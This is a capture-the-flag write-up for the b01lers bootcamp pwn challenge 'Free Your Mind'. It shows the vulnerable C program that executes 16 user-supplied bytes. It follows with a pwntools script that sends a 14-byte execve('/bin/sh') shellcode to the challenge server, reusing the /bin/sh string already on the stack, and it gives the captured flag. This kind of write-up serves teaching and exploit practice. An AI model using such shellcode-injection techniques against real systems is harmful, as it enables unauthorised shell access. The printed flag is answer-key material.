

## b01lers bootcamp: Free Your Mind [pwn]


#### Source code:
```c
#include <stdio.h>
#include <unistd.h>

char shellcode[16];

int main() {
    char binsh[8] = "/bin/sh";

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    printf("I'm trying to free your mind, Neo. But I can only show you the door. You're the one that has to walk through it.\n");
    read(0, shellcode, 16);

    ((void (*)()) (shellcode))();
}
```

#### Basically a shellcoding challenge but with a catch - we can only provide a 16-byte shellcode. Since there already is a /bin/sh string in memory, it makes it easier; we only need to find where it is in memory during runtime (playing around with gdb shows it will be at rbp-0x10). We can then continue writing an execve shellcode to get the flag.

```python
from pwn import *

#: 
#p = process('./shellcoding')
p = remote('chal.ctf.b01lers.com', 1007)
#gdb.attach(p.pid, 'break *main + 147')
print(p.recv())

#: execve('/bin/sh', 0x0, 0x0)
'''
	lea rdi, [rbp-0x10]
	xor rsi, rsi
	xor rdx, rdx
	mov al, 59
	syscall
'''
shellcode = "\x48\x8D\x7D\xF0\x48\x31\xF6\x48\x31\xD2\xB0\x3B\x0F\x05"
print('[*] Shellcode length: {}'.format(len(shellcode)))
p.sendline(shellcode)
p.interactive()

#: flag{cust0m_sh3llc0d1ng_c4n_b33_c00l}
```